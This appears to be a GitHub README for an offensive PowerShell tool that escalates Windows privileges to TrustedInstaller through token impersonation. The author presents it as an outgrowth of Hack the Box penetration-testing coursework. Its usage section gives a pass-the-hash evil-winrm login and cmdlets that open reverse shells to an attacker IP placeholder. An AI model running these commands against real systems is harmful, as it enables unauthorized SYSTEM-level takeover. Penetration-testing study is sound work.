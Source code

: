 # Evil-NTObjectManager: Fork of NtObjectManager from Google Project Zero with Additional Privilege Escalation Functionality

While going through the [Hack the Box Academy](https://academy.hackthebox.com) Penetration Tester Role Path (the course material for Hack the Box's all-powerful Certified Penetration Testing Specialist, or CPTS, certification), one of things I was tasked with doing was using the SeImpersonatePrivilege, SeDebugPrivilege, and other such escalation vectors within Windows targets to quickly and efficiently break out of restricted environments and find flags hidden in the target systems. In the Windows Privilege Escalation module, one of the ways in which this can be achieved is through manipulation of Windows services using the `sc.exe` binary, i.e. with the `binpath=` argument. However, there are a few caveats to this approach:

1. The process is very destructive and thus easily detectable by countermeasures that the target may have in place.
2. If you use `sc` to load, say, a Metasploit payload, it's not going to last for very long; you need to spawn a secondary shell quickly before the service start attempt times out.
3. If a service is already running, you need to stop it before you can configure it.

Knowing this, I thought to myself, "What core Windows services are stopped by default, have high privileges, and are easy to impersonate?" That's when I remembered that I had previously watched [this John Hammond video](https://youtu.be/Vj1uh89v-Sc?si=my7yy2IFgrFNsdYG) which mentioned one such service: the all-powerful [TrustedInstaller](https://reddit.com/r/Windows10/comments/17m3cyr/how_does_one_become_trustedinstaller/) which has some privileges, such as the ability to delete Windows core components or inject drivers deep into the C:\Windows\System32 directory, that even `NT AUTHORITY\SYSTEM` does not have. However, the method that Hammond outlines in the video was for a time a very tedious process that involved typing 7 so sequential commands into the PowerShell console just to grab the permission token. Was, that is, until now.

In this project, I've managed to wrap the entire process of starting TrustedInstaller only to immediately impersonate the token into one cmdlet: `Invoke-TrustedInstaller`. In addition, I've added two additional functions for spawning and fully backgrounding new reverse shells from entirely within the context of the highest privileged Windows service of them all.

## Usage

```bash
evil-winrm -i x.x.x.x -u Administrator -H 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' -s "$PWD/Evil-NtObjectManager"
<SNIP>
*Evil-WinRM* PS C:\> TrustedInstaller.ps1
```

```powershell
Import-Module .\TrustedInstaller.ps1
```

```powershell
Invoke-TrustedInstaller
```

```powershell
Invoke-TIRevShell -IP x.x.x.x -Port 4444
Invoke-TIRevShellTLS -IP x.x.x.x -Port 4444
```